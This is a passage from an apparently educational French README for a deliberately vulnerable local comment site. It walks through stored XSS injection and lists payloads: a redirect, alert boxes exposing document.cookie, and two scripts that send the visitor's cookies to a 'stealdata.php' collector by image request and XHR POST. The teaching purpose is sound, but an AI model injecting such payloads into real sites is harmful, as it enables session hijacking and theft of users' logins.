    Ouvrez votre navigateur et accédez à `http://localhost/vulnerable-site/` pour voir la page de commentaires.

2. **Soumettre un commentaire :**

   Soumettez un commentaire via le formulaire pour voir comment les commentaires sont enregistrés et affichés.

3. **Injection de scripts XSS :**

   Pour démontrer une attaque XSS, vous pouvez injecter les scripts suivants dans le champ de commentaire.

### Scripts de démonstration

#### Scripts de base

- **Redirection simple :**
  ```html
  <script>
      window.location.href = "http://localhost/vulnerable-site/offer.html";
  </script>
  ```

- **Affichage d'une alerte :**
  ```html
  <script>
      alert('XSS Test');
  </script>
  ```

- **Affichage du cookie :**
  ```html
  <script>
      alert(document.cookie);
  </script>
  ```

#### Scripts intermédiaires

- **Vol de cookies (simulé) :**
  ```html
  <script>
      var img = new Image();
      img.src = 'http://localhost/vulnerable-site/stealdata.php?cookie=' + document.cookie;
  </script>
  ```

- **Envoi des cookies par POST :**
  ```html
  <script>
      var xhr = new XMLHttpRequest();
      xhr.open('POST', 'http://localhost/vulnerable-site/stealdata.php', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('cookie=' + encodeURIComponent(document.cookie));
  </script>
  ```
